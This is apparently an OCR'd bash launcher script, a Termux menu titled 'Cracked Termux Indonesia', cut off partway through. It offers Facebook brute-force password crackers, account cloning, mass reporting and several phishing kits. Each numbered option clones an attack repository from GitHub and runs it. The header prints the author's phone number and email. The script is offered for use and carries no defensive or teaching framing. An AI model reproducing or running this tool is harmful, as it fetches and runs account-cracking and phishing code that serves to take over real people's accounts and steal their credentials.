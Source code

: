 # DANcuk-v
#usr/bin/bash clear bi='\033[34;1m' #biru i='\033[32;1m' #ijo pur='\033[35;1m' #purple cy='\033[36;1m' #cyan me='\033[31;1m' #merah pu='\033[37;1m' #putih ku='\033[33;1m' #kuning # Jangan Recode Ya gayn echo echo echo echo $i"["$bi"•"$i"]"$me"─────────────────────────────────────────"$i"["$bi"•"$i"]" echo $i" |"$cy"          CRACKED TERMUX INDONESIA"$i"         |" echo $i" |"$me"───────────────────────────────────────────"$i"|" echo $i" |"$pu" AUTHOR    :"$ku" MR.0RZ  [VOXcyber]"$i"            |" echo $i" |"$pu" FACEBOOK  :"$ku" Rela Saputra"$i"                  |" echo $i" |"$pu" THANKS TO :"$cy"~ [MR.4KJM] [MR.D4RKworld]"$i"     |" echo $i" |"$cy"            ~ [MRS.V3NOM] [MR.Trickster]"$i"   |" echo $i" |"$pu" Contack WhatsApp :"$ku" 082243325745"$i"           |" echo $i" |"$pu" Contack Gmail :"$ku" revoxSH3223@gmail.com"$i"     |" echo $i"["$bi"•"$i"]"$me"─────────────────────────────────────────"$i"["$bi"•"$i"]" echo echo $i"────────────────────────────────    ─────" echo $i"|"$me" 1"$i" |"$cy" BRUTEFORCE FB PHP        "$i"|"$i"    |"$cy" B"$i" |" echo $i"|"$me" 2"$i" |"$cy" BRUTEFORCE FB V3NOM      "$i"|"$i"    |"$cy" E"$i" |" echo $i"|"$me" 3"$i" |"$cy" BRUTEFORCE FB 4KMJ       "$i"|"$i"    |"$cy" N"$i" |" echo $i"|"$me" 4"$i" |"$cy" BRUTEFORCE FB MBF        "$i"|"$i"    |"$cy" G"$i" |" echo $i"|"$me" 5"$i" |"$cy" FACEBRUTE D4RKworld      "$i"|"$i"    |"$cy" K"$i" |" echo $i"|"$me" 6"$i" |"$cy" BRUTEFORCE FB ( root )   "$i"|"$i"    |"$cy" E"$i" |" echo $i"────────────────────────────────"$i"    |"$cy" L"$i" |" echo $i"|"$me" 7"$i" |"$cy" YAHOO CLONING FACEBOOK   "$i"|"$i"    ─────" echo $i"|"$me" 8"$i" |"$cy" PROFILE GUARD FACEBOOK   "$i"|"$i"    |"$cy" F"$i" |" echo $i"|"$me" 9"$i" |"$cy" REPORT FACEBOOK WORK     "$i"|"$i"    |"$cy" A"$i" |" echo $i"|"$me"10"$i" |"$cy" AUTO REACTION FACEBOOK   "$i"|"$i"    |"$cy" C"$i" |" echo $i"|"$me"11"$i" |"$cy" INFORMATION FACEBOOK     "$i"|"$i"    |"$cy" E"$i" |" echo $i"|"$me"12"$i" |"$cy" BOT KOMEN FACEBOOK       "$i"|"$i"    |"$cy" B"$i" |" echo $i"|"$me"13"$i" |"$cy" AUTOLIKE FACEBOOK        "$i"|"$i"    |"$cy" O"$i" |" echo $i"────────────────────────────────"$i"    |"$cy" O"$i" |" echo $i"|"$me"14"$i" |"$cy" PHISING FACEBOOK 1       "$i"|"$i"    |"$cy" K"$i" |" echo $i"|"$me"15"$i" |"$cy" PHISING FACEBOOK 2       "$i"|"$i"    ─────" echo $i"|"$me"16"$i" |"$cy" PHISING FACEBOOK 3       "$i"|"$i"    |"$cy" K"$i" |" echo $i"|"$me"17"$i" |"$cy" PHISING FACEBOOK 4       "$i"|"$i"    |"$cy" E"$i" |" echo $i"────────────────────────────────"$i"    |"$cy" R"$i" |" echo $i"|"$me"18"$i" |"$cy" INSTALL BAHAN DULU COK   "$i"|"$i"    |"$cy" E"$i" |" echo $i"|"$me"19"$i" |"$cy" KELUAR/EXIT PROGRAM      "$i"|"$i"    |"$cy" N"$i" |" echo $i"─────────────────────────────────────────" echo echo $me"┌==="$bi"["$i"VOXcyber"$bi"]"$me"======"$bi"["$i""Pilih Nomornya""$bi"]" echo $me"¦" read -p"└──# " pil  if [ $pil = 1 ] then clear figlet -f slant "W A I T"|lolcat sleep 1 git clone https://github.com/FR13ND8/fbbrute cd fbbrute php fb.php fi  if [ $pil = 2 ] then clear figlet -f slant "W A I T"|lolcat sleep 1 git clone https://github.com/FR13ND8/Fb-Cracker-v.3 cd Fb-Cracker-v.3 python2 crack.py fi  if [ $pil = 3 ] then clear figlet -f slant "W A I T"|lolcat sleep 1 git clone https://github.com/IqbalzNoobs/fb-brute cd fb-brute python2 brute.py fi  if [ $pil = 4 ] then clear figlet -f slant "W A I T"|lolcat sleep 1 git clone https://github.com/FR13ND8/mbf cd mbf python2 MBF.py fi  if [ $pil = 5 ] then clear figlet -f slant "W A I T"|lolcat sleep 1 git clone https://github.com/N1ght420/FaceBrute cd FaceBrute python fb.py fi  if [ $pil = 6 ] then clear figlet -f slant "W A I T"|lolcat sleep 1 git clone https://github.com/thelinuxchoice/facebash.git cd facebash bash facebash.sh fi  if [ $pil = 7 ] then clear figlet -f slant "W A I T"|lolcat sleep 1 git clone https://github.com/FR13ND8/EmailVuln cd EmailVuln python2 vuln.py fi  if [ $pil = 8 ] then clear figlet -f slant "W A I T"|lolcat sleep 1 git clo

